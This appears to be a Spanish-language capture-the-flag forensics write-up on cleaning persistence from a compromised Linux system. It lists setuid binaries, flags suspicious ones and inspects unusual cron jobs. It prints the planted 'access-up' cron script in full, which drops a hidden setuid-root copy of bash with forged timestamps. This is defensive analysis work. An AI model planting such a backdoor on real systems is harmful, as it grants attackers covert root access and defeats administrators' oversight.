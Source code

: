 ```bash 
root@ng-2122606-forensicspersistence-btivr-7c459d4bf4-rxdtr:/home/user# find / -perm -04000 2>/dev/null
/root/solveme
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/dlxcrw
/usr/bin/mgxttm
/usr/bin/sudo
/usr/sbin/afdluk
/usr/sbin/ppppd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Vemos bastantes que son binarios normales en sistemas linux, pero un par si parecen sospechosos, /usr/bin/dlxcrw, /usr/bin/mgxttm, /usr/sbin/afdluk, /usr/sbin/ppppd así que procedemos a eliminarlos.

-----

Ahora revisamos las tareas cron: 

```bash
root@ng-2122606-forensicspersistence-btivr-7c459d4bf4-rxdtr:~# ls -R /etc/cron.*
/etc/cron.d:
anacron  e2scrub_all  popularity-contest

/etc/cron.daily:
0anacron  access-up  apt-compat  bsdmainutils  dpkg  logrotate  man-db  popularity-contest  pyssh

/etc/cron.hourly:

/etc/cron.monthly:
0anacron

/etc/cron.weekly:
0anacron  man-db
```

Encontramos 2 tareas bastantes inusuales, pyssh y access-up, así que revisamos más: 

```bash 
root@ng-2122606-forensicspersistence-btivr-7c459d4bf4-rxdtr:~# cat /etc/cron.daily/access-up
#!/bin/bash


DIRS=("/bin" "/sbin")
DIR=${DIRS[$[ $RANDOM % 2 ]]}

while : ; do
    NEW_UUID=$(cat /dev/urandom | tr -dc 'a-z' | fold -w 6 | head -n 1)
    [[ -f "{$DIR}/${NEW_UUID}" ]] || break
done

cp /bin/bash ${DIR}/${NEW_UUID}
touch ${DIR}/${NEW_UUID} -r /bin/bash
chmod 4755 ${DIR}/${NEW_UUID}
```
